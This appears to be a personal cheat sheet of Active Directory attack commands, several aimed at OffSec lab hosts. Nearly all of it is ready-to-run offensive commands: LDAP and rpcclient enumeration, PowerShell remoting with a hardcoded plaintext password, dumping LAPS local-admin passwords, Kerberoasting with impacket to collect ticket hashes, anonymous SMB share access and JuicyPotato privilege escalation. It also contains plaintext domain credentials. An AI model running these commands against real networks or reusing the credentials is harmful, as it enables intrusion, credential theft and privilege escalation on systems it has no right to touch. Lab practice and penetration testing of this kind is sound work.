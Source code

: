### ldapsearch to get object in a directory 
`ldapsearch -v -x -b "DC=hutch,DC=offsec" -H "ldap://192.168.169.122" "(objectclass=*)"` 

### Dump AD Users properties (w/ shell)
`get-aduser -filter * -properties *` 

### use ps remoting to invoke commands powershell 

```
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername dc01 -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
``` 

### LAPS dump password by computername
`Get-AdmPwdPassword -ComputerName dc01 | Select-Object Password,ExpirationTimestamp` 

### Check for LAPS passowrd w/ AD-Module
`Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime` 

### Kerberoasting w/ impacket
`GetUserSPNs.py -request -dc-ip 10.10.252.24 controller.local/machine1 -outputfile hashes.kerberoast` 

### LDAP search for LAPS passwords 
`ldapsearch -v -x -D fmcsorley@HUTCH.OFFSEC -w CrabSharkJellyfish192 -b "DC=hutch,DC=offsec" -h 192.168.120.108 "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd` 

### Using ldapsearch to enumerate a Windows domain
`ldapsearch -H ldap://<ip>:<port> -x -LLL -s sub -b "DC=<domain>,DC=local"` 

### Get shares from SMB *highly effective* 
`smbclient -L \\shenzi.local -I 192.168.191.55 -N`

### Mount that share! 
`smbclient \\\\shenzi.local\\Shenzi -I 192.168.191.55 -N`

### Enumerating users on a Windows domain with rpcclient (without credentials)

```
rpcclient -U "" -N <ip>
    rpcclient $> enumdomusers
    rpcclient $> queryuser <user_RID>
```

### JuicyPotato 
`JuicyPotato.exe -l 1337 -p c:\windows\system32\cmd.exe -t * -c {69AD4AEE-51BE-439b-A92C-86AE490E8B30}` 
